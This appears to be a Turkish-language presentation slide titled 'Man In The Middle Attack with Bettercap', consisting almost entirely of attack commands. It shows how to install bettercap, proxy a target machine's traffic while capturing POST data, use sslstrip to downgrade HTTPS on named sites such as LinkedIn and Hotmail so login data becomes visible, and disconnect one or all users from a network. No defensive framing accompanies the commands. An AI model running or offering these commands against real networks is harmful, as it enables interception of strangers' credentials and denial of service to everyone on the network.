

# Bettercap ile Man In The Middle Saldırısı
sudo apt update && sudo apt install bettercap
bettercap -T WindowsIP --proxy -P POST
Linkedin, Hotmail, Trendyol gibi sitelerde bağlantının güvensiz(HTTP) olarak açıldığını görebilirsiniz. Bunun nedeni bettercap aracı içerisinde sslstrip programını çalıştırıyor ve hedefin HTTPS siteleri HTTP olarak açmasına neden oluyor. Bu yüzden de bu sitelerde girilen verileri görebiliyoruz.
Bir kullanıcıyı ağdan koparmak için yine bettercap kullanabiliriz:
bettercap --kill -T WindowsIP
Ağdaki bütün kullanıcıların bağlantısını koparmak için:
bettercap --kill